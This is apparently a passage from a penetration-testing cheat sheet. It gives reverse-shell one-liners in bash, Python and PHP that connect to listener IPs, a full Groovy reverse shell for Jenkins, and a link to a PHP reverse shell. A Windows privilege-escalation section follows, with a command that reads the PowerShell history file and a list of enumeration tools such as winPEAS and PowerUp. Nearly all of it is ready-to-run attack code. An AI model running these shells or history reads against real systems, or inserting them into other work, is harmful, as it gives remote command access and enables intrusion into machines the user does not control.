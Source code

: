 ### One Liners

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
#For powershell use the encrypted tool that's in Tools folder
```

<aside>
💡 While dealing with PHP reverseshell use: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

</aside>

### Groovy reverse-shell

- For Jenkins

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



# Windows Privilege Escalation

## Basic

```bash
#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```

## Automated Scripts

```bash
winpeas.exe
winpeas.bat
Jaws-enum.ps1
powerup.ps1
PrivescCheck.ps1
```
